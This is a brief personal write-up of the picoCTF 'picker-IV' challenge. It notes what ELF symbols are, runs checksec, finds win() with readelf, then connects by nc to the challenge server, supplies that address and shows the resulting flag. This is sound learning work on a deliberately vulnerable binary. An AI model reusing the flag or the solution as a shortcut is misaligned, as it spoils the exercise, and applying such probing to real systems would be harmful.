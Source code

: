 # Lesson  
- "symbol" of ELF  
    - `readelf -f`  
    In the context of an ELF (Executable and Linkable Format) binary and the output of readelf -s, a "symbol" refers to a named entity in the program. Symbols can represent functions, variables, or other entities that are used or defined in the binary. Each symbol has a name, a type, a binding, and other attributes.

# Memo  
1. check  
```zsh
$ file picker-IV
picker-IV: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=12b33c5ff389187551aae5774324da558cee006c, for GNU/Linux 3.2.0, not stripped
$ checksec --file=./picker-IV --output=json | jq .
{
  "./picker-IV": {
    "relro": "partial",
    "canary": "no",
    "nx": "yes",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "1"
  }
}
```

2. `readelf` command instead of `ghidra`  
This seems a simple ctf.  
I just want to find the address of win().  
```zsh
$ readelf -s picker-IV | grep win
    63: 000000000040129e   150 FUNC    GLOBAL DEFAULT   15 win
```

3. test  
```zsh
$ ./picker-IV
Enter the address in hex to jump to, excluding '0x': 040129e
You input 0x40129e
You won!
Cannot open file.
```

4. exploit  
```zsh
$ nc saturn.picoctf.net 56419
Enter the address in hex to jump to, excluding '0x': 040129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}
```